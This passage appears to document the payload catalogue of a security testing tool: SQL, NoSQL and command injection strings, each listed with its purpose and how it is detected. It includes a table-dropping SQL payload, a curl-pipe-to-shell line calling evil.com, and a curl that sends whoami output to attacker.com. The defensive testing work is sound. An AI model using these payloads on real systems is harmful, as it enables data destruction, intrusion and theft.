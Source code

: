 #### Time-Based Blind Injection
```sql
'; WAITFOR DELAY '00:00:05' --
```
- **Purpose**: Confirm injection vulnerability through timing attacks
- **Detection**: Response time variations

#### Destructive Injection
```sql
'; DROP TABLE users; --
```
- **Purpose**: Test for insufficient input validation
- **Risk**: Data destruction (should be blocked)

### 2. NoSQL Injection Attacks

#### MongoDB Operator Injection
```javascript
{"$ne": null}
{"$gt": ""}
{"$regex": ".*"}
```
- **Purpose**: Bypass authentication in MongoDB-based applications
- **Context**: JSON request bodies and query parameters

#### JavaScript Code Injection
```javascript
{"$where": "function() { return true; }"}
```
- **Purpose**: Execute arbitrary JavaScript in database context
- **Risk**: Server-side code execution

### 3. Command Injection Attacks

#### Command Chaining
```bash
; ls -la
&& whoami
|| ping -c 4 127.0.0.1
```
- **Purpose**: Execute system commands on the server
- **Detection**: Parameters containing "file", "path", "command", "url"

#### Remote Payload Execution
```bash
$(curl http://evil.com/payload.sh | sh)
```
- **Purpose**: Download and execute remote malicious code
- **Risk**: Complete system compromise

#### Data Exfiltration
```bash
`curl attacker.com/exfil?data=$(whoami)`
```
- **Purpose**: Extract system information to external servers
- **Detection**: Network monitoring required
